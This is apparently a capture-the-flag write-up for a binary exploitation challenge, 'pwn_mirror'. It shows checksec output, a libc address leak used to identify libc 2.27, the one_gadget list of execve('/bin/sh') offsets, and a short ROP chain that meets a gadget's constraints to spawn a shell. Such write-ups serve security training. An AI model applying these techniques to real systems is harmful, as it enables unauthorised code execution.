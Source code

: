 ## pwn_mirror
Running a checksec : 
```
Arch:     amd64-64-little
RELRO:    Full RELRO
Stack:    No canary found
NX:       NX enabled
PIE:      PIE enabled

```
The addresses are randomized

"Talking" to the mirror gives us a memory leak
```
Do you want to talk to the mirror? (y/n)
> y
Your answer was: y
"This is a gift from the craftsman.. [0x7ffc579a04e0] [0x7f753b204470]"
Now you can talk to the mirror.
> 

```

The second one is the address of IO_printf
![io_printf](writeupfiles/io_printf.png)

Now we can identify the libc version using [libc database search](https://libc.nullbyte.cat) and we can calculate our offsets

On my computer is 2.30 on the server it was 2.27.

In order to get a shell I will use one_gadget
```
one_gadget libc6_2.27-3ubuntu1.3_amd64.so --level 1 (to get all possible gadgets)

0x4f3d5 execve("/bin/sh", rsp+0x40, environ)
constraints:
  rsp & 0xf == 0
  rcx == NULL

0x4f432 execve("/bin/sh", rsp+0x40, environ)
constraints:
  [rsp+0x40] == NULL

0xe5617 execve("/bin/sh", [rbp-0x88], [rbp-0x70])
constraints:
  [[rbp-0x88]] == NULL || [rbp-0x88] == NULL
  [[rbp-0x70]] == NULL || [rbp-0x70] == NULL

0xe561e execve("/bin/sh", rcx, [rbp-0x70])
constraints:
  [rcx] == NULL || rcx == NULL
  [[rbp-0x70]] == NULL || [rbp-0x70] == NULL

0xe5622 execve("/bin/sh", rcx, rdx)
constraints:
  [rcx] == NULL || rcx == NULL
  [rdx] == NULL || rdx == NULL

0x10a41c execve("/bin/sh", rsp+0x70, environ)
constraints:
  [rsp+0x70] == NULL

0x10a428 execve("/bin/sh", rsi, [rax])
constraints:
  [rsi] == NULL || rsi == NULL
  [[rax]] == NULL || [rax] == NULL

```
Sadly, by default the binary does not meet the conditions of any gadget.
But, I will adjust the registers using a ROPchain.
I will search for gadgets in the libc because I already have the IO_printf address.

The ropchain is as following :
```
mov RDX, RAX % RAX is already null
POP RCX % RCX becomes null by placing a \x00*8 on the stack
```
```
objdump -D -Mintel libc6_2.27-3ubuntu1.3_amd64.so
...
14148d:       48 89 c2                mov    rdx,rax
...
34da3 : pop rcx ; ret

```

Now I can use the 0xe5622 gadget and spawn a shell

![flag](writeupfiles/proof.png)

